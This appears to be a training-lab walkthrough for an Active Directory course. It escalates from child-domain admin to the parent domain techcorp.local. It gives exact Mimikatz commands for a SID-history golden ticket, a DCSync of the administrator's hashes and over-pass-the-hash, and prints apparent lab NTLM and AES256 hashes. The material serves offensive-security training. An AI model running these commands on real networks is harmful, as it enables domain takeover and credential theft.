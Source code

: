 # Hands-on 21: Cross Domains Attacks - krbtgt

- [Hands-on 21: Cross Domains Attacks - krbtgt](#hands-on-21-cross-domains-attacks---krbtgt)
  - [Task](#task)
  - [Using DA access to us.techcorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, techcorp.local using the krbtgt hash of us.techcorp.local](#using-da-access-to-ustechcorplocal-escalate-privileges-to-enterprise-admin-or-da-to-the-parent-domain-techcorplocal-using-the-krbtgt-hash-of-ustechcorplocal)

---

## Task

Using DA access to us.techcorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, techcorp.local using the krbtgt hash of us.techcorp.local.

<br/>

---

## Using DA access to us.techcorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, techcorp.local using the krbtgt hash of us.techcorp.local

Referring to [Hands-on 14: Golden Tickets](l14-GoldenTicket.md), here is the krbtgt hash:

```
RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : b0975ae49f441adc6b024ad238935af5
```

<br/>

First get an InviShell:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

<br/>

Use Mimikatz to set SID History for the `Domain Controllers Group` for `us.techcorp.local`:

```
. C:\AD\Tools\Invoke-Mimikatz.ps1; Invoke-Mimikatz -Command '"kerberos::golden /user:us-dc$ /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /groups:516 /krbtgt:b0975ae49f441adc6b024ad238935af5 /sids:S-1-5-21-2781415573-3701854478-2406986946-516,S-1-5-9 /ptt"'
```

![picture 34](images/676d2407dcd180f94a4d785c96e1e8866fbd8846a68a39e108a25b4fadfd4569.png)  

<br/>

Perform a DCSync to dump the hashes of `techcorp\administrator`:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```
. C:\AD\Tools\Invoke-Mimikatz.ps1; Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\administrator /domain:techcorp.local"'
```

![picture 35](images/064b5519347cc786d88fe8a5b75a28aa8f0805c827233236412aeeb3a64ca719.png)  

<br/>

Note:
techcorp\administrator
- SID: `S-1-5-21-2781415573-3701854478-2406986946-500`
- NTLM: `bc4cf9b751d196c4b6e1a2ba923ef33f`
- AES256: `58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883`

<br/>

Perform over-pass-the-hash:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```
. C:\AD\Tools\Invoke-Mimikatz.ps1; Invoke-Mimikatz -Command '"sekurlsa::pth /domain:techcorp.local /user:administrator /aes256:58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883 /run:powershell.exe"'
```

![picture 36](images/02fb9d8bc9998f8ec6c2bba6ff3bd740e0ab38a3cc64fc9a36497d0709f61719.png)  
